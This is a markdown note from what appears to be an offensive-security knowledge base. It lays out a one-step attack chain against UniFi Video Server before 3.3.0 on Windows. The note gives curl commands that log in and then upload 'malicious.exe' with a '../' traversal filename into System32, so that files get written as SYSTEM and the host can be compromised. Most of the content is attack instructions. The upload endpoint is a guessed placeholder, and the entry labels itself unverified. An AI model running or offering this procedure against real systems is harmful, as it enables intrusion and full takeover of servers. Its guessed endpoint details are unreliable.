

---
tags:
  - path-traversal
  - file-upload
  - arbitrary-write
  - rce
  - unifi
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Privilege Escalation]]'
verified: false
platforms:
  - Windows
  - Web
submitted: true
created_at: '2023-10-05T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Path-Traversal-File-Upload-in-UniFi-Video-Server]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T05:32:10.313Z'
description: >-
  Exploits a path traversal vulnerability in the file upload endpoint of UniFi
  Video Server (prior to 3.3.0) on Windows to upload arbitrary files as the
  SYSTEM user, enabling full system compromise.
id: 05ccdbc4-600d-445c-8dfa-cbdef410e1b4
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Privilege Escalation]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Arbitrary File Upload via Path Traversal in UniFi Video Server Leading to SYSTEM Compromise

Multi-stage attack chain demonstrating a complete attack workflow targeting the UniFi Video Server's file upload vulnerability.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Target OS/Platform: Windows (UniFi Video Server < 3.3.0)
- Required services/ports: HTTP service on port 8080 or 80 (default for UniFi Video)
- Network access requirements: Direct network access to the server's web interface

### Initial Access Requirements

- Credential requirements: Valid username and password for the UniFi Video Server admin interface
- Network position: Attacker must be able to reach the server over HTTP/HTTPS
- Prior access needed: None, but authentication is required for the upload endpoint

## Detailed Attack Procedures

### Step 1: Exploit Path Traversal in File Upload
procedure: [[procedures/Exploit-Path-Traversal-File-Upload-in-UniFi-Video-Server]]

**Objective**: Authenticate to the UniFi Video Server and craft an HTTP request to upload a malicious file to an arbitrary location, such as system directories, leveraging path traversal to bypass filename verification. This allows writing files as the SYSTEM user on Windows, potentially enabling code execution and full compromise.

**Instructions**: Ensure you have valid credentials. Prepare a malicious file (e.g., a webshell or executable). Use [[commands/curl-arbitrary-file-upload-unifi]] to send a POST request to the file upload endpoint with a manipulated filename using '../' to traverse to desired paths like C:\Windows\System32.

First, authenticate if needed (UniFi uses basic auth or session-based; assume basic for simplicity):

```bash
curl -u admin:password -c cookies.txt http://target-ip:8080/login
```

Then, perform the upload with path traversal in the filename:

```bash
curl -u admin:password -b cookies.txt -F "file=@/path/to/malicious.exe;filename=../../../Windows/System32/malicious.exe" http://target-ip:8080/upload-endpoint
```

Adjust the endpoint path based on reconnaissance (common for UniFi: /api/upload or similar firmware/log upload). Verify upload by checking if the file appears in the target location via SMB or shell access.

**Expected Output**: HTTP 200 OK response indicating successful upload, with no errors on filename validation.

**Success Indicators**:
- File uploaded without rejection
- Malicious file present in arbitrary location (e.g., ls or dir on target confirms)
- If executable, test execution leads to SYSTEM shell

## Attack Chain Summary

### Key Achievements

1. Bypassed filename verification via path traversal
2. Achieved arbitrary file write as SYSTEM on Windows
3. Enabled potential RCE and full system control

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Privilege Escalation]]

---
*Last updated: 2023-10-05T00:00:00Z*
